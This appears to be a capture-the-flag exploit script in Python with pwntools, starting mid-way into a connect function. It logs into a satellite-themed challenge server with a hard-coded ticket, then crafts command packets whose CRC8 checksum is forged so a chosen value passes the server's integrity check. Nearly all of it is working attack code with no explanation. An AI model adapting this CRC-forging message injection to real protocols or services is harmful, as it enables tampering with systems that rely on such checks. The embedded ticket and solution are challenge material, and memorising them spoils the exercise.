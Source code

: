 ```python
    p = remote("sun.satellitesabove.me", 5043)

    p.recvuntil("please:")
    p.sendline("ticket{charlie82375mike:GCTG-KMD1hTE7dJWr8Trbb9WNYHXS6I5YHB1fiSzuimbf3r7EEhGRqvqAyWsoPoKVg}")
    p.recvuntil("Configuration Server: Running")
    p.readline()

    return p

def createCommand(cmdId, cmdData):
    padding = b""
    requiredPadding =  4 - (len(cmdData) % 4)
    if requiredPadding != 4 and requiredPadding != 0:
        padding = b"\x00" * requiredPadding

    msg = p8(len(cmdData) + len(padding) + 2) + p8(cmdId) + cmdData + padding

    assert (len(msg) % 4) != 0, "alignment bad"

    return msg

seqNo = 1

crc_lookup_table = {}
for i in range(256):
    crc_lookup_table[crc8.crc8(bytes([i])).digest()] = bytes([i])

def getForgeBytes(data, desired):
    crc = crc8.crc8(data).digest()
    data = data + crc
    crc = crc8.crc8(data).digest()

    assert crc[0] == 0

    data = data + crc_lookup_table[bytes([desired])]

    crc = crc8.crc8(data).digest()
    assert crc[0] == desired

    return data


p = connect()
cookieCommand= unhexlify("0A00")
cookieMessage = unhexlify("53df135f") + struct.pack(">H", seqNo)

fullMsg = cookieMessage
desired = 3

fullMsg += createCommand(1, p8(0))

fullMsg = getForgeBytes(fullMsg, desired)

crc = crc8.crc8(fullMsg).digest()
fullMsg = cookieCommand + p8(len(fullMsg)) + p8(desired) + fullMsg

finalMsg = struct.pack(">B", len(fullMsg) + 1) + fullMsg
finalMsg = hexlify(finalMsg)

p.sendline(finalMsg)
print(p.readline().decode().strip())

```